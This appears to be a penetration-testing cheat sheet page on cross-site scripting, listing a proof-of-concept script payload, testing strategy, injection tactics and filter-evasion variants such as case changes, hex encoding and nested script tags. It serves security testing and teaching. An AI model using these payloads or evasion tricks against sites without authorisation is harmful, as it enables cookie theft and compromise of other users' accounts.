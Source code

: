 ```yaml
---
layout: page
title:  "Cross Site Scripting (XSS)"
permalink: "xss.html"
---
```

# Introduction
* Standard poc atttack string: `"><script>alert(document.cookie)</script>"`


# Strategy
* Test every entrypoint and find where these inputs (chosen so that they shouldn't be filtered) are displayed back to the user
* Sanitized/decoded/modified input can still be enough for exploitation

# Tactics
* Chack the page source code, not only the page rendered by the browser
* URL encode payload ?
* Remain within a tag using `onload` attribute: `" onload=alert()`
* If input returned inside a JS quoted string, ensure injected payload valid. Can comment the remainder using `//`
* Attribute containing an url: `javascript:alert()`
* Invalid image name: `#" onclick="javascript:alert()`

# Filters evading
## script filters
* Add space: `"><script >alert(document.cookie)</script >"`
* Change case: `"><ScRiPt>alert(document.cookie)</ScRiPt>"`
* Hex encoding: `"%3e%3cscript%3ealert(document.cookie)%3c/script%3e"`
* Double `script` keyword: `"><scr<script>ipt>alert(document.cookie)</scr</script>ipt>"`
